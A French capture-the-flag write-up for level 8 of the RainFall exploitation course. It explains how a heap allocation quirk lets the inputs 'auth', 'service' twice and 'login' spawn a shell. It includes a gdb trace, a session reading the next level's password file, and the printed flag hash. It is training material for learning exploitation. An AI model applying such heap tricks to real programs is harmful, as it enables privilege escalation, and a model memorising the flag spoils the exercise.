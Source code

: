 # Level8

On constate que le programme est une boucle qui change de comportement en fonction des entrees clavier.
Le programme verifie que "auth " est entre pour initialise "auth" alouer 4 octets et mettre auth[0] a 0 a l'adresse "0x804a008", puis copie input+5 dans auth (ici 0x0a equivalent a line feed)

Quand nous entrons "service" une premiere fois une adresse est allouee sur le tas, service se situe a auth[16] ("0x804a018") et une line feed y est inscrit (input + 7 = service_ <-).
Il suffit d'entrer une nouvelle fois service pour allouee la meme chose a l'adresse a auth[32] ("0x804a028").

En entrant login nous passons donc dans la condition car auth[32] vaut "0x0a" et != 0 , un bash est lancé.

```
0x804a028:      0x00000000
(gdb) c
Continuing.
service
0x804a008, 0x804a028

Breakpoint 1, 0x08048596 in main ()
(gdb) x/x 0x804a028
0x804a028:      0x0000000a <=== apres deuxieme "service"
```

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```